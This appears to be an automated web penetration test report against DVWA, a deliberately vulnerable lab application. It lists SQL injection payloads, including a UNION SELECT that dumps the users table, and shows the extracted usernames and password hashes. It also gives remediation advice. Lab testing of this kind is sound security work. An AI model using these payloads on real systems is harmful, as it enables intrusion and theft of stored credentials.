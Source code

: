 # Automated Web Pentest Report

**Scan Date:** 2025-06-12T08:04:43.678302Z  
**Target:** DVWA

## Test Environment

- **Server OS:** Kali GNU/Linux Rolling
- **Python Version:** 3.13.3
- **Scan Date:** 2025-06-12 08:04:43 UTC
- **SQLmap Version:** 1.9.4#stable
- **Target App:** DVWA (Damn Vulnerable Web Application)
- **Version:** 1.10 *Development*
- **Security Level:** low
- **Web Server:** Apache 2.4
- **Database:** MySQL 8
- **Language:** PHP 8.1
- **Tools Used:** Python requests, BeautifulSoup4, SQLmap, Burp Suite (manual verify)

---
## Methodology & Tools

- Automated Python script loads payloads from file, sends HTTP requests, extracts evidence with BeautifulSoup4.
- Auto-classifies results, exports as PDF/Markdown/JSON.
- SQLmap integration for advanced SQLi detection.
- Ready for CI/CD: can run in GitHub Actions/Jenkins.

---
## Executive Summary
- Total vulnerabilities tested: 4  
- Successful exploits: 3  
- Risk Level: **Critical**


---
## Test Cases Table

| # | Payload | Status | Severity |
|---|---------|--------|----------|
| 1 | `' OR '1'='1` | Success | Critical |
| 2 | `' OR 1=1 #` | Success | Critical |
| 3 | `' union select user, password from users#` | Success | Critical |
| 4 | `addadasddad` | Fail | Low |

---
## Evidence Details

**Severity:** `Critical`
### [1] Payload: `' OR '1'='1`
```
ID: ' OR '1'='1
First name: admin
Surname: admin

ID: ' OR '1'='1
First name: Gordon
Surname: Brown

ID: ' OR '1'='1
First name: Hack
Surname: Me

ID: ' OR '1'='1
First name: Pablo
Surname: Picasso

ID: ' OR '1'='1
First name: Bob
Surname: Smith
```

---
**Severity:** `Critical`
### [2] Payload: `' OR 1=1 #`
```
ID: ' OR 1=1 #
First name: admin
Surname: admin

ID: ' OR 1=1 #
First name: Gordon
Surname: Brown

ID: ' OR 1=1 #
First name: Hack
Surname: Me

ID: ' OR 1=1 #
First name: Pablo
Surname: Picasso

ID: ' OR 1=1 #
First name: Bob
Surname: Smith
```

---
**Severity:** `Critical`
### [3] Payload: `' union select user, password from users#`
```
ID: ' union select user, password from users#
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: ' union select user, password from users#
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

ID: ' union select user, password from users#
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: ' union select user, password from users#
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: ' union select user, password from users#
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```

---
**Severity:** `Low`
### [4] Payload: `addadasddad`
```
User ID:
```

---
## Extracted Users

| # | Username | Password/Hash |
|---|----------|---------------|
| 1 | admin | 5f4dcc3b5aa765d61d8327deb882cf99 |
| 2 | gordonb | e99a18c428cb38d5f260853678922e03 |
| 3 | 1337 | 8d3533d75ae2c3966d7e0d4fcc69216b |
| 4 | pablo | 0d107d09f5bbe40cade3de5c71e9e9b7 |
| 5 | smithy | 5f4dcc3b5aa765d61d8327deb882cf99 |

---
## Recommendations
- Use prepared statements (parameterized queries) for all database access.
- Enable a Web Application Firewall (e.g., ModSecurity + CRS) in production.
- Build a code review checklist for input validation and output encoding.
- Patch DVWA and all dependencies regularly.
- Integrate automated security testing (e.g., SonarQube, OWASP ZAP) into CI/CD.
- Regularly update payload signatures and review recent CVE advisories.

---
## References
- OWASP SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
- PayloadAllTheThings SQLi: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
- DVWA GitHub: https://github.com/digininja/DVWA
- SQLmap: http://sqlmap.org/
- OWASP Testing Guide: https://owasp.org/www-project-web-security-testing-guide/

---
